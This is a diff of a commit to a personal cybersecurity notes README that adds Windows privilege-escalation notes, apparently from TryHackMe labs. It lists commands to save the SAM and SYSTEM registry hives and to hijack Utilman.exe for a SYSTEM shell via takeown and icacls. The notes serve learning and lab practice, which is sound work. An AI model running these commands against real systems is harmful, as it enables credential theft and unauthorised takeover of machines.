

Before and after one commit to smmehrab/cybersecurity, a Markdown page: README.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Windows Priv Esc

```diff
--- a/README.md
+++ b/README.md
@@ -437,7 +437,27 @@
       * `accesschk64.exe -qlc service_name`
       * `SERVICE_ALL_ACCESS`
         Can reconfigure the service
-  *
+  * Windows Privileges
+    * `whoami /priv`
+    * [Priv2Admin](https://github.com/gtworek/Priv2Admin)
+    * `SeBackup/SeRestore`
+      Allow users to read and write to any file in the system, ignoring any DACL in place.
+      * `reg save hklm\system C:\Users\THMBackup\system.hive`
+      * `reg save hklm\sam C:\Users\THMBackup\sam.hive`
+    * `SeTakeOwnership`
+      Allows a user to take ownership of any object on the system.
+      * `utilman.exe`
+      * `takeown /f C:\Windows\System32\Utilman.exe`
+      * `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
+      * `copy cmd.exe utilman.exe`
+      * Clicking on ease of access button (`utilman`), now we get a `cmd` with system privileges.
+    * `SeImpersonate/SeAssignPrimaryToken `
+      Allow a process to impersonate other users and act on their behalf.
+  * Vulnerable Softwares
+    * `wmic`
+      * `wmic product get name,version,vendor`
+    * Case Studies
+      * Druva inSync 6.6.3
   *
 
 #### OSINT
```
Also changed, not shown: other parts of README.md (+1 -1 lines).
